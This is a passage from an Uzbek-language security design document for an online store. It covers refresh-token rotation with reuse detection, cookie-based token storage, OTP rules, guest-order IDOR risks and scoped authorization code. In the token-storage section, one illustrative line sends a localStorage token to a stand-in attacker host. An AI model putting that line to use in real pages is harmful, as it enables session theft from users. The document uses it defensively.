> **Halol izoh:** agar hujumchi token'ni o'g'irlab, uni foydalanuvchidan **oldin**
> ishlatsa va foydalanuvchi bir hafta saytga kirmasa — hujumchi bir hafta zanjirni
> tinch rotatsiya qiladi va aniqlanmaydi. Reuse detection faqat **ikki taraf ham
> faol bo'lganda** ishlaydi. Bu usulning tub cheklovi. Shuning uchun u yolg'iz
> emas: §11 audit log va §2.5 qurilma ro'yxati ham kerak.

#### Ma'lumot modeli

```prisma
// apps/api/prisma/schema.prisma (fragment)
model RefreshToken {
  id        String   @id @default(uuid(7))
  /// SHA-256(token). Xom token HECH QACHON saqlanmaydi:
  /// baza sizsa — tokenlar bilan birga sizmasin.
  /// Argon2 EMAS — bu yuqori entropiyali (32 bayt CSPRNG) sir, lug'at
  /// hujumi qo'llanilmaydi. SHA-256 yetarli va TEZ (har refresh'da kerak).
  tokenHash String   @unique @map("token_hash")

  userId    String   @map("user_id")
  user      User     @relation(fields: [userId], references: [id], onDelete: Cascade)

  sessionId String   @map("session_id")
  session   Session  @relation(fields: [sessionId], references: [id], onDelete: Cascade)

  /// Bitta login zanjirining identifikatori. Rotatsiyada meros qilinadi.
  familyId  String   @map("family_id") @db.Uuid

  /// Ishlatilgan payt. null = hali ishlatilmagan (aktiv).
  /// Qayta kelsa va bu null bo'lmasa -> REUSE.
  usedAt    DateTime? @map("used_at") @db.Timestamptz(3)

  /// Bekor qilingan payt va sababi (audit uchun).
  revokedAt     DateTime?      @map("revoked_at") @db.Timestamptz(3)
  revokedReason RevokeReason?  @map("revoked_reason")

  /// Rotatsiya zanjirini tiklash uchun (tergov paytida foydali).
  replacedById  String?  @unique @map("replaced_by_id")

  expiresAt DateTime @map("expires_at") @db.Timestamptz(3)
  createdAt DateTime @default(now()) @map("created_at") @db.Timestamptz(3)

  /// Tergov uchun: qaysi IP/qurilmadan yaratilgan.
  createdByIp String? @map("created_by_ip") @db.Inet
  userAgent   String? @map("user_agent")

  @@index([familyId])
  @@index([userId, revokedAt])
  @@index([expiresAt]) // tozalash job'i uchun
  @@map("refresh_tokens")
}

enum RevokeReason {
  ROTATED           // normal rotatsiya
  REUSE_DETECTED    // hujum shubhasi
  LOGOUT
  LOGOUT_ALL
  PASSWORD_CHANGED
  ADMIN_REVOKED
  EXPIRED
}
```

#### Implementatsiya — SERIALIZABLE tranzaksiya

**Nega SERIALIZABLE va nima uchun bu shart:**

Ikki so'rov bir vaqtda bir xil refresh token bilan kelsa (aynan hujum ssenariysi!),
`READ COMMITTED` da ikkalasi ham `usedAt = null` ni o'qiydi va **ikkalasi ham
muvaffaqiyatli bo'ladi**. Reuse **aniqlanmaydi** — bu himoyani butunlay yo'qqa
chiqaradi.

`SERIALIZABLE` da PostgreSQL bu konfliktni aniqlaydi va bittasini `40001`
(serialization failure) bilan rad etadi.

> **Trade-off ochiq aytiladi:** SERIALIZABLE — eng qimmat izolyatsiya darajasi.
> Lekin `/auth/refresh` — kam chastotali endpoint (foydalanuvchi boshiga
> 15 daqiqada bir marta). Kelvin miqyosida bu **hech qanday muammo emas**.
> Bu yerda to'g'rilik tezlikdan muhim. Taqqoslash uchun: `docs/06` da qoldiq
> rezervi uchun SERIALIZABLE **tanlanmagan** — u yerda chastota yuqori va
> atomik `UPDATE ... WHERE` ishlatiladi.

```ts
// apps/api/src/modules/identity/token/refresh-token.service.ts
import { Injectable, UnauthorizedException } from '@nestjs/common';
import { PrismaClient, Prisma, RevokeReason } from '@prisma/client';
import { createHash, randomBytes } from 'node:crypto';

const REFRESH_TTL_DAYS = 30;

interface RefreshContext {
  ip: string | null;
  userAgent: string | null;
}

interface RefreshResult {
  accessToken: string;
  refreshToken: string; // xom qiymat — faqat shu yerda mavjud
}

@Injectable()
export class RefreshTokenService {
  constructor(
    private readonly prisma: PrismaClient,
    private readonly jwt: JwtService,
    private readonly audit: AuditLogService,
  ) {}

  private hash(token: string): string {
    return createHash('sha256').update(token).digest('hex');
  }

  private generate(): string {
    // 32 bayt CSPRNG = 256 bit entropiya. Taxmin qilib bo'lmaydi.
    return randomBytes(32).toString('base64url');
  }

  async rotate(rawToken: string, ctx: RefreshContext): Promise<RefreshResult> {
    const tokenHash = this.hash(rawToken);

    return this.prisma.$transaction(
      async (tx) => {
        const existing = await tx.refreshToken.findUnique({
          where: { tokenHash },
          include: { user: true },
        });

        // 1. Token umuman mavjud emas.
        // Sabab: soxta token, yoki tozalash job'i o'chirgan.
        if (!existing) {
          throw new UnauthorizedException('invalid_refresh_token');
        }

        // 2. REUSE DETECTION
        // Token allaqachon ishlatilgan yoki bekor qilingan bo'lsa —
        // butun oilani o'ldiramiz.
        if (existing.usedAt !== null || existing.revokedAt !== null) {
          await this.revokeFamily(tx, existing.familyId, RevokeReason.REUSE_DETECTED);

          // Bu — xavfsizlik hodisasi, oddiy xato emas (14-bo'lim).
          await this.audit.record(tx, {
            action: 'AUTH_REFRESH_REUSE_DETECTED',
            actorId: existing.userId,
            targetType: 'RefreshToken',
            targetId: existing.id,
            ip: ctx.ip,
            metadata: {
              familyId: existing.familyId,
              // Vaqt farqi tergovda foydali: agar reuse ishlatilgandan
              // bir necha soat keyin kelsa — bu tarmoq qayta urinishi emas.
              originallyUsedAt: existing.usedAt,
              alreadyRevoked: existing.revokedAt !== null,
            },
          });

          throw new UnauthorizedException('token_reuse_detected');
        }

        // 3. Muddati o'tgan.
        if (existing.expiresAt <= new Date()) {
          throw new UnauthorizedException('refresh_token_expired');
        }

        // 4. Foydalanuvchi o'chirilgan / bloklangan.
        if (existing.user.deletedAt !== null || existing.user.isBlocked) {
          await this.revokeFamily(tx, existing.familyId, RevokeReason.ADMIN_REVOKED);
          throw new UnauthorizedException('user_inactive');
        }

        // 5. Normal rotatsiya.
        const newRaw = this.generate();
        const created = await tx.refreshToken.create({
          data: {
            tokenHash: this.hash(newRaw),
            userId: existing.userId,
            sessionId: existing.sessionId,
            familyId: existing.familyId, // oila MEROS QILINADI
            expiresAt: new Date(Date.now() + REFRESH_TTL_DAYS * 86_400_000),
            createdByIp: ctx.ip,
            userAgent: ctx.userAgent,
          },
        });

        await tx.refreshToken.update({
          where: { id: existing.id },
          data: {
            usedAt: new Date(),
            revokedAt: new Date(),
            revokedReason: RevokeReason.ROTATED,
            replacedById: created.id,
          },
        });

        const accessToken = await this.jwt.signAccess({
          sub: existing.userId,
          role: existing.user.role,
          sid: existing.sessionId,
          fid: existing.familyId,
        });

        return { accessToken, refreshToken: newRaw };
      },
      {
        // Reuse detection'ning to'g'ri ishlashi AYNAN shunga bog'liq.
        isolationLevel: Prisma.TransactionIsolationLevel.Serializable,
        timeout: 5_000,
      },
    );
  }

  private async revokeFamily(
    tx: Prisma.TransactionClient,
    familyId: string,
    reason: RevokeReason,
  ): Promise<void> {
    await tx.refreshToken.updateMany({
      where: { familyId, revokedAt: null },
      data: { revokedAt: new Date(), revokedReason: reason },
    });
  }
}
```

#### `40001` (serialization failure) bilan nima qilinadi

SERIALIZABLE tranzaksiya konflikt bilan tugashi **normal** hodisa. Lekin bu yerda
retry siyosati nozik:

```ts
// MUHIM: /auth/refresh da KO'R-KO'RONA RETRY QILINMAYDI.
//
// Sabab: 40001 aynan ikki so'rov bir tokenni bir vaqtda ishlatganda chiqadi —
// ya'ni bu REUSE HUJUMINING O'ZI bo'lishi mumkin. Avtomatik retry qilsak,
// ikkinchi urinish endi usedAt != null ni ko'radi va reuse'ni to'g'ri
// aniqlaydi — bu YAXSHI. Lekin retry natijasini mijozga MUVAFFAQIYAT deb
// qaytarish — himoyani chetlab o'tish demakdir.
//
// Qaror: 40001 -> 401 qaytariladi, mijoz qayta login qiladi.
// Bu tarmoq qayta urinishi holatida biroz noqulay, lekin XAVFSIZ tomonga
// xato qiladi. Refresh — 15 daqiqada bir marta bo'ladigan amal;
// nodir noqulaylik qabul qilinadi.
```

#### Reuse detection qanday testlanadi

`docs/14-testing-strategy.md` da concurrency testlari bor. Bu yerga tegishlisi:

| Test | Kutilgan natija |
|---|---|
| T1 → rotate → T2. Keyin T1 ni yuborish | 401 `token_reuse_detected`, F1 butunlay bekor |
| T1 → rotate → T2. T2 ni yuborish | 200, T3 beriladi |
| T1 ni **bir vaqtda ikki marta** yuborish (parallel) | Aynan bittasi 200 yoki ikkalasi ham 401. **Hech qachon ikkalasi 200 emas** |
| Reuse'dan keyin eski access token (hali 15 min ichida) | §2.5 ga bog'liq — deny-list bo'lsa 401 |
| Ikki qurilma (F1, F2). F1 da reuse | F2 **ta'sirlanmaydi** |
| Reuse → `AuditLog` da yozuv | `AUTH_REFRESH_REUSE_DETECTED` mavjud |

Uchinchi test — **property-based** (kanon §6, `fast-check`): N ta parallel so'rov,
invariant "muvaffaqiyatli javoblar soni ≤ 1".

### 2.5. Access token'ni bekor qilish — halol cheklov

JWT stateless. Berilgandan keyin **uni chaqirib olib bo'lmaydi** — u
muddati tugaguncha (15 daqiqa) amal qiladi.

Ya'ni: reuse aniqlangandan keyin ham hujumchining **oxirgi access token'i
15 daqiqa ishlaydi**. Buni yashirmaymiz.

Variantlar:

| Variant | Qanday | Narxi |
|---|---|---|
| **Hech narsa** | 15 daqiqa kutamiz | Bepul. Hujumchi 15 daqiqa ichkarida |
| **Redis deny-list** | Har so'rovda `sid` Redis'da tekshiriladi | Har so'rovga +1 Redis o'qish. Stateless'lik yarim yo'qoladi |
| **Access TTL ni qisqartirish** | 15 min → 2 min | Refresh chastotasi 7 barobar oshadi |

**Kelvin qarori — gibrid:**

- **Oddiy foydalanuvchi (`CUSTOMER`)**: deny-list **yo'q**. 15 daqiqa qabul
  qilinadi. Mijoz hisobidan qilinadigan zarar cheklangan (§3.4 IDOR himoyasi
  bilan u faqat o'z buyurtmasini ko'radi).
- **Ichki rollar (`OWNER`/`ADMIN`/`ACCOUNTANT`/`MANAGER`)**: `sid` Redis
  deny-list'da tekshiriladi. Sabab: bu rollarda 15 daqiqada qilinadigan zarar
  katta (narx, chegirma, rol berish). Bu rollar soni kam (o'nlab), Redis
  yuklamasi ahamiyatsiz.

```ts
// apps/api/src/modules/identity/guards/jwt-auth.guard.ts (fragment)
const PRIVILEGED_ROLES: ReadonlySet<UserRole> = new Set([
  UserRole.OWNER,
  UserRole.ADMIN,
  UserRole.ACCOUNTANT,
  UserRole.MANAGER,
]);

async function isRevoked(payload: AccessTokenPayload): Promise<boolean> {
  // Mijoz uchun tekshirmaymiz — ataylab (yuqoridagi trade-off).
  if (!PRIVILEGED_ROLES.has(payload.role)) return false;
  return (await redis.exists(`denylist:sid:${payload.sid}`)) === 1;
}
// Deny-list yozuvining TTL'i = access token TTL'i (15 min).
// Undan uzoq saqlashning ma'nosi yo'q — token baribir o'lgan.
```

### 2.6. Token saqlash — brauzerda

Bu yerda ko'p loyihalar xato qiladi, shuning uchun aniq yoziladi.

| Token | Qayerda | Nega |
|---|---|---|
| **Refresh** | `httpOnly; Secure; SameSite=Strict; Path=/auth` cookie | JS o'qiy olmaydi → XSS uni **o'g'irlay olmaydi** |
| **Access** | **JS xotirasida** (Zustand store, modul o'zgaruvchisi) | Sahifa yangilanishida yo'qoladi → refresh'dan qayta olinadi |

**`localStorage` HECH QACHON ishlatilmaydi.**

Sabab: `localStorage` — oddiy JS obyekti. Sahifada bajarilgan **har qanday**
JS unga kira oladi. Bitta XSS (yoki zaharlangan npm paketi — §13) bir qatorda
tokenni o'g'irlaydi:

```js
// Hujumchining sahifaga kirgan bitta qatori:
fetch('https://evil.example/c?t=' + localStorage.getItem('token'))
```

Aynan shu sabab `sessionStorage` ham yaramaydi — u ham JS'ga ochiq.

**Cookie parametrlari:**

```ts
// apps/api/src/modules/identity/auth.controller.ts (fragment)
res.cookie('kelvin_rt', refreshToken, {
  httpOnly: true,     // JS o'qiy olmaydi — XSS himoyasi
  secure: true,       // faqat HTTPS. Prod'da MAJBURIY
  sameSite: 'strict', // CSRF himoyasi: cross-site so'rovda yuborilmaydi
  path: '/auth',      // faqat /auth/* ga yuboriladi — sizish yuzasi kichrayadi
  maxAge: REFRESH_TTL_DAYS * 86_400_000,
  // domain: ataylab qo'yilmaydi -> host-only cookie.
  // '.kelvin.uz' qo'ysak, har subdomen uni ko'radi.
});
```

**`SameSite=Strict` va uning oqibati:** tashqi saytdan (masalan, Telegram'dagi
havoladan) Kelvin'ga o'tilganda cookie **birinchi so'rovda yuborilmaydi**.
Foydalanuvchi "chiqib ketgan" ko'rinadi. Lekin refresh `Path=/auth` da bo'lgani
uchun bu faqat `/auth/refresh` chaqiruvida sezilaydi — u esa fon so'rovi
(navigatsiya emas), ya'ni cookie **yuboriladi**. `Strict` shuning uchun ishlaydi
va `Lax` ga tushirish shart emas.

**CSRF:** `SameSite=Strict` + refresh endpoint'ining `POST` bo'lishi asosiy
himoya. Qo'shimcha CSRF token — **kerak emas**, chunki access token cookie'da
emas (xotirada), ya'ni `Authorization` header orqali yuboriladi — brauzer
uni avtomatik qo'shmaydi. Bu CSRF'ning tub sababini yo'q qiladi.

> **Bu dizaynning natijasi:** to'liq XSS bo'lgan taqdirda ham hujumchi refresh
> tokenni **o'g'irlay olmaydi**. U faqat foydalanuvchi sahifada bo'lgan vaqtda
> so'rov yubora oladi. Bu yomon, lekin 30 kunlik to'liq egalikdan ancha yaxshi.
> XSS'ning o'zi §12 (CSP) va §7 (validatsiya) bilan kamaytiriladi.

### 2.7. Telefon OTP — O'zbekiston konteksti

O'zbekistonda **telefon — asosiy identifikator**, email emas. Ko'p mijozda
email umuman yo'q yoki u ishlatilmaydi. Shuning uchun:

- Ro'yxatdan o'tish — telefon bo'yicha.
- Parolni tiklash — SMS orqali (email emas).
- Mehmon buyurtmasini bog'lash — telefon bo'yicha (§2.8).

**SMS provayderi: Eskiz.uz** (kanon §6).

> ⚠️ **Eskiz API detallari NOMA'LUM.** Quyidagi interfeys — **taxminiy shakl**,
> rasmiy hujjatdan tekshirilishi kerak (§15, savol 8). Endpoint nomlari, imzo
> sxemasi, xato kodlari, narx modeli — **to'qib chiqarilmagan, tasdiqlanmagan.**

```ts
// apps/api/src/modules/notification/sms/sms-provider.interface.ts
/**
 * FARAZ: Eskiz.uz API shakli tasdiqlanmagan.
 * Bu interfeys provayderdan mustaqil bo'lishi uchun ataylab minimal.
 * Rasmiy hujjat olingach EskizSmsProvider aniqlashtiriladi.
 */
export interface SmsProvider {
  send(to: E164Phone, message: string): Promise<SmsSendResult>;
  getStatus(messageId: string): Promise<SmsDeliveryStatus>;
}
```

**OTP xavfsizlik qoidalari:**

| Qoida | Qiymat | Sabab |
|---|---|---|
| Uzunlik | 6 raqam | 4 raqam = 10 000 variant — brute-force arzon |
| Generatsiya | `crypto.randomInt` (CSPRNG) | `Math.random()` — **taxmin qilinadi**. Hech qachon |
| TTL | 5 daqiqa | Uzoq TTL = katta brute-force oynasi |
| Urinishlar | **3 ta**, keyin OTP kuyadi | Yangi OTP so'rash kerak → yangi SMS → §8.4 limitiga tushadi |
| Saqlash | Redis, SHA-256 xesh | Baza/log sizsa OTP ochiq bo'lmasin |
| Bir martalik | Ishlatilgach darhol o'chiriladi | Replay |
| Javob matni | **Har doim bir xil** | "Bu raqam ro'yxatdan o'tmagan" → foydalanuvchi sanash imkoni (enumeration) |

**Eng katta xavf — SMS pul turadi (§8.4).** Bu oddiy rate limiting emas, bu
**to'g'ridan-to'g'ri moliyaviy DoS**. Hujumchi tasodifiy raqamlarga OTP so'rab,
do'kon hisobidan pul yoqadi. Batafsil — §8.4.

### 2.8. Mehmon checkout — IDOR xavfi

Kanon §7, `cart` moduli: mehmon savati bor. `docs/07-order-and-checkout.md`:
auth'siz buyurtma berish mumkin. Bu **to'g'ri biznes qarori** — majburiy
ro'yxatdan o'tish konversiyani tushiradi.

Lekin bu xavfsizlik savolini tug'diradi:

> **Mehmon buyurtma berdi. Endi buyurtma holatini kim ko'ra oladi?**

Mehmonda hisob yo'q, token yo'q. Lekin u buyurtmasini kuzatishi kerak.

**Sodda (va XATO) yechim:**

```
GET /orders/{orderId}
```

Agar `orderId` ketma-ket bo'lsa (`1001`, `1002`, ...) — bu **klassik IDOR**:
hujumchi raqamlarni aylanib chiqib **butun buyurtma bazasini** yig'adi:
ism, telefon, manzil, xarid tarixi. Bu A1 aktivining to'liq sizishi.

UUID v7 (kanon §8) bu yerda **yordam beradi, lekin yechim emas**: UUID v7 da
vaqt komponenti bor va u tasodifiy emas — lekin qolgan bitlar tasodifiy, ya'ni
taxmin qilib bo'lmaydi. Muammo boshqa: **URL o'zi sirga aylanadi**. U brauzer
tarixida, `Referer` header'ida, log'da, mijozning WhatsApp'ga tashlagan
xabarida qoladi.

**Kelvin qarori — ikki faktor: buyurtma raqami + telefon + OTP**

```
POST /orders/lookup
{ "orderNumber": "K-2601-0042", "phone": "+998901234567" }
   -> SMS OTP yuboriladi

POST /orders/lookup/verify
{ "orderNumber": "K-2601-0042", "phone": "+998901234567", "otp": "384712" }
   -> qisqa muddatli (30 daqiqa) faqat-shu-buyurtma token'i
```

**Nega "buyurtma raqami + telefon" o'zi YETARLI EMAS:**

Bu ko'p do'konlarda uchraydi va zaif. Sabab: telefon raqami **sir emas**.
Buyurtma raqami esa ketma-ket (`K-2601-0042` — mijozga qulay bo'lishi kerak).
Hujumchi tanishining telefonini biladi → buyurtma raqamlarini aylanadi →
uning manzilini oladi. Ikki "faktor" ham hujumchining qo'lida.

OTP buni tuzatadi: hujumchida **telefon qurilmasi** bo'lishi kerak.

**Narxi va halol e'tirof:**

| Muammo | Izoh |
|---|---|
| Har tekshiruv — SMS puli | §8.4 limiti qattiq qo'llanadi |
| UX og'irlashadi | Mijoz "buyurtmam qayerda?" uchun OTP kutadi |
| Alternativa | SMS'dagi **imzolangan havola** (`?t=<HMAC>`): OTP'siz, lekin havola SMS'da → telefon o'g'irlansa ochiq |

> **Ochiq savol (§15, savol 9):** OTP'mi yoki imzolangan havolami? Bu **UX va
> xavfsizlik o'rtasidagi savdo** va do'kon egasi qaror qiladi. Texnik tavsiya:
> **imzolangan havola + qisqa TTL + faqat holat ko'rsatish (to'liq manzil emas)** —
> bu ko'p hollarda yetarli va bepul. Aniq TTL o'lchov/kelishuv bilan belgilanadi.

**Mehmon buyurtmasini keyin hisobga bog'lash:**

Mijoz keyinroq ro'yxatdan o'tsa, o'sha telefon bilan — eski buyurtmalari
avtomatik bog'lanadimi?

```ts
// Bu XAVFLI amal. Telefon raqamlari QAYTA ISHLATILADI:
// operator raqamni ma'lum muddatdan keyin boshqa odamga beradi
// (O'zbekistonda aniq muddat — operator shartnomasiga bog'liq, TEKSHIRILMAGAN).
// Yangi egasi ro'yxatdan o'tsa — eski egasining manzil va xarid tarixini
// ko'radi.
//
// Kelvin qarori: telefon TASDIQLANGANDA (OTP) bog'lanadi, lekin faqat
// oxirgi N oy ichidagi buyurtmalar. N noma'lum -> 15-bo'lim, savol 10.
```

### 2.9. 2FA (TOTP)

**Kimga majburiy:**

| Rol | 2FA | Sabab |
|---|---|---|
| `OWNER` | **Majburiy** | Butun tizim |
| `ADMIN` | **Majburiy** | Rol berish, narx, sozlama |
| `ACCOUNTANT` | **Majburiy** | Ledger, refund |
| `MANAGER` | Tavsiya etiladi | Chegirma tasdig'i, inventarizatsiya tuzatishi |
| `SELLER`, `COURIER`, `WAREHOUSE` | Yo'q | UX narxi > foyda. Ular smena davomida ko'p marta kiradi |
| `CUSTOMER` | Ixtiyoriy | Majburlash konversiyani o'ldiradi |

**Nega TOTP (RFC 6238), SMS emas:** SMS 2FA — SIM-swap hujumiga zaif va har
kirish pul turadi. TOTP bepul va offline ishlaydi (Google Authenticator,
Aegis va h.k.).

**Muhim detallar:**

- **Secret** — `crypto.randomBytes(20)` (160 bit, RFC 4226 tavsiyasi).
- **Bazada shifrlangan holda** saqlanadi (envelope encryption, kalit —
  sirlar boshqaruvidan, §9). Xesh **emas** — TOTP tekshirish uchun secret
  ochiq shaklda kerak. Bu parol xeshlashdan farqli holat.
- **Recovery kodlar** — 10 dona bir martalik, **Argon2id bilan xeshlangan**.
- **Vaqt oynasi** — ±1 qadam (30s). Kattaroq oyna — brute-force yuzasi kattaroq.
- **Bir martalik ishlatish** — ishlatilgan kod Redis'da ~90s belgilanadi,
  aks holda replay mumkin.
- **Rate limiting** — 5 urinish / 15 daqiqa (§8.3). 6 raqamli kod = 1M variant;
  limitisiz brute-force real.

### 2.10. OAuth — ochiq savol

| Provayder | Foyda | Muammo |
|---|---|---|
| **Google** | Tanish, bepul | O'zbekistonda ko'p mijozda Google hisobi ishlatilmaydi. **Telefon berilmaydi** — baribir OTP kerak |
| **Telegram Login** | O'zbekistonda Telegram **juda keng tarqalgan**. Kanon §6: Telegram bot allaqachon rejada | Widget domenga bog'lanadi. Imzo tekshiruvi (HMAC-SHA256, bot token asosida). **Telefon ixtiyoriy** — foydalanuvchi bermasligi mumkin |

> **Ochiq savol (§15, savol 11):** OAuth kerakmi? Texnik pozitsiya: **MVP'da
> kerak emas.** Sabab: Kelvin'ning asosiy identifikatori — **telefon** (yetkazib
> berish uchun baribir kerak). OAuth telefonni bermaydi → OTP oqimi baribir
> qoladi → ikki oqim saqlanadi, foyda esa noaniq. Telegram Login keyinroq
> qo'shilishi mumkin, lekin **bot xabarnomasi bilan birga** — o'shanda
> `chatId` bog'lash uchun tabiiy sabab paydo bo'ladi.

---

## 3. Avtorizatsiya

### 3.1. Asosiy tezis: rol YETARLI EMAS

Ko'p tizim shu yerda to'xtaydi:

```ts
@Roles(UserRole.SELLER)
@Get('/pos/shifts/:id')
getShift(@Param('id') id: string) { ... }
```

Bu **"sotuvchimi?"** degan savolga javob beradi. Lekin kerakli savol boshqa:

> **"Bu sotuvchi AYNAN SHU smenani ko'rishi kerakmi?"**

Sotuvchi Aziz — `SELLER`. Sotuvchi Bobur ham — `SELLER`. Yuqoridagi guard
Azizga Boburning smenasini, uning naqd sanog'ini va komissiyasini ko'rsatadi.
Rol to'g'ri, ruxsat noto'g'ri.

Shuning uchun Kelvin'da avtorizatsiya **ikki qatlamli**:



**3-qadam — eng ko'p unutiladigan va eng ko'p zarar keltiradigan qadam.**
OWASP Top 10 da u A01 — **birinchi o'rinda** (§10).

### 3.2. RBAC — rollar

To'liq 10×45 matritsa `docs/01-product-spec.md` da. Bu yerda faqat xavfsizlik
nuqtai nazaridan muhimlari:

| Rol | Ishonch darajasi | Eng xavfli huquqi |
|---|---|---|
| `OWNER` | To'liq | Hammasi. **Rol berish** |
| `ADMIN` | Yuqori | Narx, sozlama, foydalanuvchi |
| `ACCOUNTANT` | Yuqori (pul) | **Refund**, ledger ko'rish |
| `MANAGER` | O'rta | Chegirma tasdig'i, **inventarizatsiya tuzatishi** |
| `SELLER` | Past | **Chegirma (limitli)**, POS smena |
| `WAREHOUSE` | Past | Qoldiq harakati |
| `COURIER` | Eng past | Jo'natma holati, **naqd qabul qilish** |
| `CONTENT` | Past | Blog, banner |
| `SUPPORT` | Past | Mijoz ma'lumotini **ko'rish** (§6.4 — bu ham xavf) |
| `CUSTOMER` | Ishonchsiz | Faqat o'ziniki |

**Huquq rol'dan hisoblanadi, token'da saqlanmaydi** (§2.3). Sabab: xodim
ishdan bo'shatilsa, uning token'idagi huquqlar ro'yxati 15 daqiqa yashaydi.
Rol'dan hisoblansa — `User.role` o'zgarishi + deny-list (§2.5) darhol ta'sir qiladi.

### 3.3. CASL yoki custom guard — qaror

| Variant | Foyda | Zarar |
|---|---|---|
| **CASL** | Deklarativ, shart bo'yicha (`can('read', 'Order', { customerId: user.id })`), frontend'da qayta ishlatiladi | Yangi kutubxona, Prisma `where` ga o'girish qo'shimcha qatlam (`@casl/prisma`), abstraksiya sizib chiqadi |
| **Custom guard + repository filtri** | Aniq, kutubxonasiz, Prisma bilan tabiiy | Qo'lda yoziladi, unutish oson (**aynan IDOR sababi**) |

**Kelvin qarori: custom guard + majburiy scope filtri.**

Sabab — halol: CASL kuchli, lekin uning asosiy foydasi **ko'p va murakkab
qoidalar** bo'lganda ochiladi. Kelvin'da qoidalar sodda va ular soni kam.
Yangi abstraksiya qo'shish bu yerda muammoni yechmaydi, faqat ko'chiradi.

Lekin custom guard'ning tub xavfi bor: **uni yozishni unutish mumkin**.
Shuning uchun u "har dasturchi eslab qolsin" ga tayanmaydi — quyidagi
mexanizm bilan majburlanadi (§3.4).

### 3.4. IDOR himoyasi — scope repository

**Printsip:**

> **Resursni topib, keyin egasini tekshirma. Boshidanoq faqat egasiniki bo'lgan
> resurslar orasidan qidir.**

Farq nozik, lekin hal qiluvchi:

```ts
// ❌ XATO — "topib, keyin tekshirish"
const order = await prisma.order.findUnique({ where: { id } });
if (order.customerId !== user.id) throw new ForbiddenException();
// Muammo: bu ikki qator. Ikkinchisini yozishni UNUTISH mumkin — va
// hech qanday test/tип buni ushlamaydi. Kod "ishlaydi".

// ✅ TO'G'RI — "scope ichida qidirish"
const order = await prisma.order.findFirst({
  where: { id, customerId: user.id },
});
if (!order) throw new NotFoundException();
// Muammo yo'q: scope'ni unutsang, so'rov O'ZI mantiqan tugallanmagan bo'ladi.
```

**Buni qanday MAJBURLASH mumkin** (dasturchining diqqatiga tayanmasdan):

```ts
// apps/api/src/core/scope/scoped-order.repository.ts
/**
 * Order'ga kirishning YAGONA yo'li. `prisma.order` to'g'ridan-to'g'ri
 * modullarda ishlatilishi TAQIQLANADI — bu dependency-cruiser qoidasi
 * bilan majburlanadi (docs/02-architecture.md 4-bo'lim).
 *
 * Har metod ActorContext talab qiladi: uni "unutib bo'lmaydi", chunki
 * u majburiy argument. TypeScript kompilyatsiya bosqichida ushlaydi.
 */
@Injectable()
export class ScopedOrderRepository {
  constructor(private readonly prisma: PrismaClient) {}

  /** Aktor ko'rishi mumkin bo'lgan buyurtmalar uchun WHERE fragmenti. */
  private scope(actor: ActorContext): Prisma.OrderWhereInput {
    switch (actor.role) {
      case UserRole.OWNER:
      case UserRole.ADMIN:
      case UserRole.ACCOUNTANT:
        return {}; // hammasi

      case UserRole.MANAGER:
        return {}; // hammasi, lekin yozish huquqi cheklangan (RBAC qatlami)

      case UserRole.SELLER:
        // Faqat O'ZI yaratgan yoki o'z smenasidagi buyurtmalar.
        return {
          OR: [
            { sellerId: actor.userId },
            { posShift: { sellerId: actor.userId } },
          ],
        };

      case UserRole.COURIER:
        // Faqat O'ZIGA tayinlangan jo'natmalar.
        return { shipments: { some: { courierId: actor.userId } } };

      case UserRole.CUSTOMER:
        return { customerId: actor.customerId ?? '__none__' };

      default:
        // Yangi rol qo'shilsa va bu yerga kelmasa — TypeScript
        // `never` tekshiruvi bilan KOMPILYATSIYA XATOSI beradi.
        // Bu "ochiq qolib ketish" ni oldini oladi.
        return assertNever(actor.role);
    }
  }

  async findById(actor: ActorContext, id: string): Promise<Order | null> {
    return this.prisma.order.findFirst({
      where: { AND: [{ id }, this.scope(actor)] },
    });
  }

  async list(actor: ActorContext, filter: OrderFilter): Promise<Order[]> {
    return this.prisma.order.findMany({
      where: { AND: [toPrismaWhere(filter), this.scope(actor)] },
      take: filter.limit,
    });
  }
}
```

**Bu dizaynning uchta xususiyati:**

1. **`actor` — majburiy birinchi argument.** Uni unutish = kompilyatsiya xatosi.
2. **`assertNever`** — yangi rol qo'shilganda `scope()` ni yangilash unutilsa,
   `pnpm typecheck` yiqiladi. Yangi rol **jimgina "hammasini ko'radigan"
   bo'lib qolmaydi**.
3. **To'g'ridan-to'g'ri `prisma.order` taqiqlanadi** — `dependency-cruiser`
   qoidasi bilan (CI'da tekshiriladi). Bu "unutish" imkonini arxitektura
   darajasida yopadi.

**Aynan shu naqsh qo'llaniladigan resurslar:**

| Resurs | Scope qoidasi |
|---|---|
| `Order` | Yuqoridagi |
| `Shipment` | `COURIER` → faqat `courierId = actor.userId` |
| `PosShift` | `SELLER` → faqat `sellerId = actor.userId` |
| `Customer` | `CUSTOMER` → faqat o'zi. `SELLER` → **faqat aloqada bo'lgan mijozlar** (§6.4) |
| `Cart` | `CUSTOMER` → o'zi. Mehmon → cookie'dagi `cartToken` bo'yicha |
| `Review` | Yozish: faqat **sotib olgan** mijoz (`docs/01`) |
| `Payment`, `LedgerEntry` | Faqat `ACCOUNTANT`/`OWNER`. Mijoz → faqat o'z to'lovi |

### 3.5. 403 emas, 404 — nega

```ts
// Resurs bor, lekin aktorniki emas:
throw new NotFoundException(); // 403 EMAS
```

Sabab: `403 Forbidden` — **"bu resurs mavjud, lekin sizga ruxsat yo'q"** degani.
Bu hujumchiga ma'lumot beradi: ID to'g'ri ekan. U ID'larni aylanib chiqib
"qaysi buyurtmalar mavjud" ro'yxatini tuzadi (**resource enumeration**).

`404` — "yo'q". Hujumchi mavjudmi yoki yo'qmi — bilmaydi.

**Istisno:** aktorning roli **umuman** bu endpoint'ga kirmasa (masalan, `COURIER`
`/admin/pricing` ga) — bu `403`. U yerda yashiradigan ma'lumot yo'q: endpoint'ning
mavjudligi baribir OpenAPI'da ochiq (`docs/04-api-spec.md`).

Qoida qisqa:

- **RBAC rad etsa → 403** (endpoint sirning o'zi emas).
- **Scope rad etsa → 404** (resurs mavjudligi — sir).

### 3.6. Nozik joy: filtr orqali sizish

Scope repository resursning **o'zini** himoya qiladi. Lekin ma'lumot boshqa
yo'l bilan ham sizadi:

```
GET /orders?customerPhone=%2B998901234567
```

Sotuvchi bu filtrni yuborsa — scope uni o'z buyurtmalari bilan chegaralaydi,
ya'ni **hech narsa ko'rmaydi**. Lekin javobning bo'sh yoki bo'sh emasligi
o'zi ma'lumot: "bu telefonli mijoz mendan xarid qilganmi?" Bu **kichik** sizish.

Kattaroq muammo — **agregatlar**:

```
GET /analytics/sales?groupBy=seller
```

Agar bu endpoint scope'ni qo'llamasa, sotuvchi barcha hamkasblarining savdosini
